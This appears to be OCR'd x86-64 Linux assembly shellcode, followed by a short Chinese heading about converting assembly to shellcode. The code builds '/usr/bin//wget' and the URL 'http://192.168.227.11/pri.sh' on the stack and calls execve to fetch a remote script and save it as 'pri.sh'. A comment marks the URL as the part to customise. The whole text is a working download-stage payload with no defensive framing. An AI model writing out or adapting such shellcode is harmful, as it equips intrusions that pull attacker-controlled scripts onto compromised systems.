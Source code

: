 	    xor rax,rax
	     
	     
	    push rax
	    push rax
	    push rax
	     
	    mov [rsp],dword '/usr'
	    mov [rsp+4],dword '/bin'
	    mov [rsp+8],dword '//wg'
	    mov [rsp+12],word 'et'
	     
	    mov rdi,rsp
	     
	    push rax
	    push rax
	    push rax
	    push rax
	     
	    ;----------------------
	    ;cusmizetd these statements for the link of pri.sh
	    mov [rsp],dword 'http'
	    mov [rsp+4],dword '://1'
	    mov [rsp+8],dword '92.1'
	    mov [rsp+12],dword '68.2'
	    mov [rsp+16],dword '27.1'
	    mov [rsp+20],dword '1/pr'
	    mov [rsp+24],dword 'i.sh'
	    ;------------------------
	     
	    mov rsi,rsp
	    xor rdx,rdx
	     
	    push rax
	    mov [rsp],word '-O'
	    mov rcx,rsp
	    push rax
	    push rax
	    mov [rsp],dword 'pri'
	    mov [rsp+3],word '.s'
	    mov [rsp+5],byte 'h'
	     
	    mov r15,rsp
	    push rdx
	    push r15
	    push rcx
	    push rsi
	    push rdi
	     
	    mov rsi,rsp
	     
	    mov al,59
	    syscall


* 汇编转shellcode

